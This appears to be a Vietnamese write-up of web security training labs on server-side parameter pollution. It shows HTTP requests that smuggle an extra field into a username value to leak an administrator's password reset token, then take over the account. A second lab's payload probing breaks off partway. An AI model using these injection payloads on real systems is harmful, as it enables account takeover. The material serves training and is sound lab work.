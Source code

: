 ==> Thấy Nếu URL chứa parameter ```"?reset_token"``` --> Redirect sang ```"/forgot-password?reset_token=..."```

==>Có 1 param ẩn là: ```"reset_token"```

==>Thử gửi 1 request:

```bash
POST /forgot-password HTTP/2
Host: 0a68000404a93ba1807ed2d100960020.web-security-academy.net
Cookie: session=oHQs3tBIMJlaqhY23Nxwrhyczb80FMY9
Content-Length: 80
Content-Type: x-www-form-urlencoded
csrf=uT6nd0BmDi3D8fIFcqMXFLbDVGQwuoDM&username=administrator%26field=reset_token
```

```bash
{"result":"oubag1ymsdpldk07a0cd1h2mooxunpjk","type":"reset_token"}
```

==> Ta lấy được giá trị của ```reset_token```

==>Gửi 1 request:

```bash
GET /forgot-password?reset_token=bqaekielxqvkqu0cl0hudw4rosstfb6h HTTP/2
```

==>Đổi mật khẩu và đăng nhập vào admin --> Xóa ```"carlos"``` user --> Solved


## Lab: Exploiting server-side parameter pollution in a REST URL

**END goals**: log in as "administrator" and deleter "carlos"

```bash
-Gửi request forgot-password cho administrator:
POST /forgot-password HTTP/2
Host: 0a24002d04ac4bdf80c28a1300700062.web-security-academy.net
Cookie: session=dftzj227liUkkDGpFsU0pNInIw9LWX7Z
Content-Length: 60
Content-Type: x-www-form-urlencoded
csrf=IZ8HJUQ5roI5jKwCtC6XdbqF0e9y9khQ&username=administrator
```

```bash
{"type":"email","result":"*****@normal-user.net"}
```

- Thử các payload để tìm hiểu cách server xử lý input:
    - Username=administrator%23--> 
    ```bash
    {
      "type": "error",
      "result": "Invalid route. Please refer to the API definition"
    }
    ```
